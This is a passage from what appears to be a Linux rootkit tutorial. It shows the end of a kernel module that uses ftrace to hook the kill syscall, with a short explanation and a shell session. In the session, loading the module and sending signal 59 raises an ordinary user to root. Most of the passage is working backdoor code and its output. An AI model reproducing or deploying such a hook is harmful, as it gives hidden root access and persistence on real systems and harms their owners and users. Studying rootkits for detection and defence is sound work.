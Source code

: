 ```c
        newcredentials->suid.val = 0;
        newcredentials->fsuid.val = 0;
        newcredentials->euid.val = 0;

        commit_creds(newcredentials);
}

static struct ftrace_hook hooks[] = {
                HOOK("__x64_sys_kill", hook_kill, &orig_kill),
};

static int __init mangekyou_init(void){
        int error;
        error = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
        if(error){
                return error;
        }
        return 0;
}

static void __exit mangekyou_exit(void){
        fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
}

module_init(mangekyou_init);
module_exit(mangekyou_exit);
dumbledore@infect:~$
```

The C code above is very simple, basically it declares a pointer to the original kill syscall function, so that it can be called after the hook.

It checks if the sigkill is 59, if so, it calls the "SpawnRoot" function which basically changes its current id to 0 i.e. root, otherwise the original kill syscall function is called.

Remembering that in the code above, I am using ftrace as a syscall hooking method.

```
dumbledore@infect:~$ sudo insmod hook.ko
dumbledore@infect:~$ lsmod|grep hook
hook                   12288  0
dumbledore@infect:~$ id;whoami;cd /root
uid=1000(dumbledore) gid=1000(dumbledore) grupos=1000(dumbledore),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),118(lpadmin)
dumbledore
cd: permissão negada: /root
dumbledore@infect:~$ kill -59 0
dumbledore@infect:~$ whoami
root
dumbledore@infect:~$ id
uid=0(root) gid=0(root) egid=1000(dumbledore) grupos=1000(dumbledore),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),118(lpadmin)
dumbledore@infect:~$
```
